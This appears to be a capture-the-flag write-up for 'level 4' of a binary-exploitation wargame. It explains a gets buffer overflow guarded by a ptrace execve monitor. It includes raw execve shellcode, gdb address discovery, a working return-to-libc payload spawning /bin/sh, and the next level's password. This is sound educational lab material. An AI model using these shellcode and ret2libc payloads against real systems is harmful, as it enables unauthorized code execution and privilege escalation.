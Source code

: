 # level 4 <buffer overflow attack, return-to-libc>

## Overview
The binary has `gets` function which has vulnerability of `buffer overflow`. But there is also tracking system using `ptrace`, prevent running execve function in child process. Instead, we can use `return-to-libc` to go into the `libc` and run `system` with `/bin/sh`.

## Steps

### vulnerability with `gets`

address of argument of gets: `%esp+0x20` = `0xffffd630`\
address of return address: `%ebp+0x4` = `0xffffd6cc`\
offset = 156 bytes

We tried to write shellcode in the buffer and access there.
```
python -c '''
shellcode = "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
padding = "x"*(156-len(shellcode))
address = "\xff\xff\xd6\x30"[::-1]
print shellcode + padding + address
''' > /tmp/04

(gdb) r <<< $(cat /tmp/04)
Starting program: /home/users/level04/level04 <<< $(cat /tmp/04)
Give me some shellcode, k
no exec() for you
[Inferior 1 (process 2007) exited normally]
```
But, this method is blocked by `ptrace` \.
```
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```

#### reference links
[Playing with ptrace](https://www.linuxjournal.com/article/6100)\
[ptrace.h](https://sites.uclouvain.be/SystInfo/usr/include/sys/ptrace.h.html)\
[Exploiting Linux systems with ptrace](https://raj3shp.medium.com/exploiting-linux-systems-with-ptrace-637f13a7d9ea)\
[Intercepting and Emulating Linux System Calls with Ptrace](https://nullprogram.com/blog/2018/06/23/)

### return-to-libc

First, we have to find address of `libc`.
```
(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
0xf7e2b000 0xf7e2c000     0x1000        0x0
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
0xf7fd0000 0xf7fd4000     0x4000        0x0
0xf7fda000 0xf7fdb000     0x1000        0x0
```
There is `/lib32/libc-2.15.so` from `0xf7e2c000` to `0xf7fcc000`.

Then, find address of string "/bin/sh"
```
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

```
objdump -d /lib32/libc-2.15.so | grep system
0003eed0 <__libc_system>:
0xf7e2c000 + 0003eed0 = 0xf7e6aed0

or 

readelf -s /lib32/libc-2.15.so | grep system
   239: 0011ca50    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   615: 0003eed0   141 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1422: 0003eed0   141 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```
#### reference links
[Return-to-libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)

## Code
### supervised by ptrace

```c
// child
prctl(1, 1);
ptrace(0, 0, 0, 0);
puts("Give me some shellcode, k");
gets(v5);
```
- `prctl(1, 1)` sets the process to receive a SIGHUP signal if its parent process dies.
- `ptrace(PTRACE_TRACEME, 0, 0, 0)` declares that the current process should be traced by its parent, often used in debugging scenarios.

```c
// parent
do
{
  wait(&v4);
  v6 = v4;
  if ( (v6 & 0x7F) == 0 || (v7 = v4, (char)((v4 & 0x7F) + 1) >> 1 > 0) )
  {
    puts("child is exiting...");
    return 0;
  }
  v8 = ptrace(3, v9, 44, 0);
}
while ( v8 != 11 );
puts("no exec() for you");
kill(v9, 9);
```
- The ptrace with 3`PTRACE_PEEKUSER` as first argument, reads data from the child process's user area.
- The value 11 is significant as it corresponds to the system call number for `execve` in some architectures. This loop effectively monitors whether the child process has called `execve`.

Tip! to debug multi-process program
```
(gdb) set follow-fork-mode child
(gdb) set follow-fork-mode parent
```

## Payload


address of `system` = `0xf7e6aed0`\
address of string, `/bin/sh` = `0xf7f897ec`

```
python -c 'print("x"*156 + "\xf7\xe6\xae\xd0"[::-1] + "xxxx" + "\xf7\xf8\x97\xec"[::-1])' > /tmp/04

cat /tmp/04 - | ./level04
```

## Flag
```
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```